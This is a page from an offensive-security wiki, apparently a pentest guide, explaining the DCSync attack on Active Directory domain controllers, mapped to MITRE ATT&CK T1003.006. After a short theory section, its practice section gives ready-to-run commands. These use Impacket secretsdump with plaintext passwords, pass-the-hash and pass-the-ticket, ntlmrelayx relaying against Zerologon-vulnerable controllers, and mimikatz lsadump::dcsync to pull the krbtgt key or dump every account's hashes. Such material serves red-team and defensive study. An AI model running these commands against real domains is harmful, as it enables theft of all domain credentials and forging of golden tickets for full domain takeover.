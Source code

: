 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1003.006
---
```


# DCSync

## Theory

DCSync is a technique that uses Windows Domain Controller's API to simulate the replication process from a remote domain controller. This attack can lead to the compromise of major credential material such as the Kerberos `krbtgt` keys used legitimately for tickets creation, but also for [tickets forging](../../abusing-kerberos/forged-tickets.md) by attackers. The consequences of this attack are similar to an [NTDS.dit dump and parsing](ntds.dit.md) but the practical aspect differ. **A DCSync is not a simple copy & parse of the NTDS.dit file**, it's a `DsGetNCChanges` operation transported in an RPC request to the DRSUAPI \(Directory Replication Service API\) to replicate data \(including credentials\) from a domain controller.

**This attack requires domain admin privileges** to succeed \(more specifically, it needs the following extended privileges: `DS-Replication-Get-Changes`  and `DS-Replication-Get-Changes-All`\). Members of the Administrators, Domain Admins, Enterprise Admins, and Domain Controllers groups have these privileges by default. In some cases, over-privileged accounts can be abused to [grant controlled objects the right to DCSync](../../abusing-aces/granting-genericall.md).

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, this attack can be carried out with [Impacket](https://github.com/SecureAuthCorp/impacket/)'s [secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) which has the ability to run this attack on an elevated context obtained through [plaintext password stuffing](../bruteforcing/stuffing.md), [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md).

```bash
# using a plaintext password
secretsdump -outputfile resultsfile 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER'

# with Pass-the-Hash
secretsdump -outputfile resultsfile -hashes 'LMhash':'NThash' 'DOMAIN'/'USER'@'DOMAINCONTROLLER'

# with Pass-the-Ticket
secretsdump -k -outputfile resultsfile 'DOMAIN'/'USER'@'DOMAINCONTROLLER'
```

This attack can also be operated with a [relayed NTLM authentication](../../abusing-lm-and-ntlm/relay.md), but only if the target domain controller is vulnerable to [Zerologon](../../frontal-attacks-2/zerologon.md) since the DRSUAPI always requires signing.

```bash
# target vulnerable to Zerologon, dump DC's secrets only
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER'

# target vulnerable to Zerologon, dump Domain's secrets
ntlmrelayx.py -t dcsync://'DOMAINCONTROLLER' -auth-smb 'DOMAIN'/'LOW_PRIV_USER':'PASSWORD'
```
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) \(C\) can be used to operate a DCSync and recover the `krbtgt` keys for a [golden ticket attack](../../abusing-kerberos/forged-tickets.md#golden-ticket) for example. For this attack to work, the following mimikatz command should run in an elevated context \(i.e. through runas with plaintext password, [pass-the-hash](../../abusing-lm-and-ntlm/pass-the-hash.md) or [pass-the-ticket](../../abusing-kerberos/pass-the-ticket.md)\).

```bash
# Extract a specific user, in this case the krbtgt
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# Dump everything (printed in a short and readable format)
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /all /csv
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync" %}

